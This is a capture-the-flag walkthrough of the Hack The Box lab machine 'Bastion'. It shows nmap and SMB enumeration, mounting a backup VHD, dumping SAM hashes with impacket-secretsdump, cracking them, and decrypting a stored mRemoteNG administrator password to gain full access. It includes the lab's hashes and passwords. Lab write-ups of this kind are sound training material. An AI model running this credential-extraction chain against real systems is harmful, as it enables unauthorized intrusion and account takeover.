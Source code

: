 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/71b37b2e-e90f-4252-8fef-451b2a940875)

first enumeration with nmap 

```shell
# Nmap 7.94 scan initiated Sun Jul 30 17:12:19 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 22,135,139,445,5985,47001 -Pn 10.10.10.134
Nmap scan report for 10.10.10.134
Host is up (0.18s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp   open  Ö²pÓU      Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-07-30T18:12:38+02:00
| smb2-time: 
|   date: 2023-07-30T16:12:37
|_  start_date: 2023-07-30T16:03:20
|_clock-skew: mean: -39m57s, deviation: 1h09m13s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 30 17:12:46 2023 -- 1 IP address (1 host up) scanned in 27.69 seconds
```
cool let's enumerate smb 

### Enumerating SMB server 

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/Basiton]
└─$ smbclient -L 10.10.10.134 -N            
                                                                              
        Sharename       Type      Comment
        ---------       ----      -------      
        ADMIN$          Disk      Remote Admin
        Backups         Disk                                                  
        C$              Disk      Default share                                                                                                             
        IPC$            IPC       Remote IPC         
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.134 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available                                                                                                       
```
first we check for anonymous available shares, we can see the Backups share 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b0e5bc5f-5a0a-4b6e-95e4-29904fdfdc5a)

mount the smbshare into our kali machine.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7cc247f6-68fd-4b8e-a1b5-9c1fb49f99e9)

checking the content of `note.txt` not much info, just talking about transfers of backups. let's look around.

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/…/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351]
└─$ ls -al
total 5330560
drwxr-xr-x 2 root root          0 Feb 22  2019 .
drwxr-xr-x 2 root root          0 Feb 22  2019 ..
-rwxr-xr-x 1 root root   37761024 Feb 22  2019 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root 5418299392 Feb 22  2019 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
-rwxr-xr-x 1 root root       1186 Feb 22  2019 BackupSpecs.xml
-rwxr-xr-x 1 root root       1078 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
-rwxr-xr-x 1 root root       8930 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
-rwxr-xr-x 1 root root       6542 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
-rwxr-xr-x 1 root root       2894 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
-rwxr-xr-x 1 root root       1488 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
-rwxr-xr-x 1 root root       1484 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
-rwxr-xr-x 1 root root       3844 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
-rwxr-xr-x 1 root root       3988 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
-rwxr-xr-x 1 root root       7110 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
-rwxr-xr-x 1 root root    2374620 Feb 22  2019 cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
```
in the `WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351` directory, we got some files in .`vhd` and `.xml` let's check online how to extract `.vhd` file. first we need to install:

```
apt-get install libguestfs-tools
apt-get install guestmount
```

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/HTB/Basiton]
└─$ sudo guestmount --add mnt/WindowsImageBackup/L4mpje-PC/"Backup 2019-02-22 124351"/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro mnt/vhd
[sudo] password for n16hth4wk:

┌──(root㉿n16hth4wk-sec)-[/home/…/HTB/Basiton/mnt/vhd]
└─# ls
'$Recycle.Bin'   config.sys                pagefile.sys   ProgramData      Recovery                     Users
 autoexec.bat   'Documents and Settings'   PerfLogs      'Program Files'  'System Volume Information'   Windows
```
cool we mount the vhd file and extracted it contents. checking around got nothing,

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/6850ab55-8eb6-472e-881c-0f2f0278c3e9)

checking the `Windows/System32/config` for SAM and SYSTEM so we can get NTLM hashes from there. 

```shell
┌──(root㉿n16hth4wk-sec)-[/home/n16hth4wk/Documents/HTB/Basiton]
└─# impacket-secretsdump -sam SAM -system SYSTEM local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up... 
```
cool we got the hashes for user `L4mpje`. let's crack it

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/faab337a-a188-4709-ba8d-8c85d04c505e)

cracked the hash using hashcat. we got `bureaulampje` as the password. let's try login ssh using `L4ampje:bureaulampje`

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/095ff0b8-b5a8-4d18-acf2-eaf8985ccc04)

Bankai!!! we are in.


## Privilege Escalation

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/c839a253-1412-4091-ad2a-c57673e54cdc)

checking for installed applications, we can see `mRemoteNG`. let's try exploit this app.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7c380697-ec40-451e-ac9e-2ea27400a91b)

navigate to the appdata dir.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/dceeebeb-0fe9-4304-9382-38280e7db4c2)

checking the content `confCons.xml` file we can see the administrator password enc text.

```
Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
```

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1b952d23-94b8-4fc8-aa9b-e87151a19b50)

found a decryptor tool to crack the enc text [Tool](git clone https://github.com/haseebT/mRemoteNG-Decrypt.git). 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/631e9da7-9c03-4705-bf1f-0406526e900f)

decrypted the password success. `thXLHM96BeKL0ER2`. let's try ssh as administrator using this password.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e71ddcb0-3dee-44f6-a1ba-b4672709da19)

and we are through 



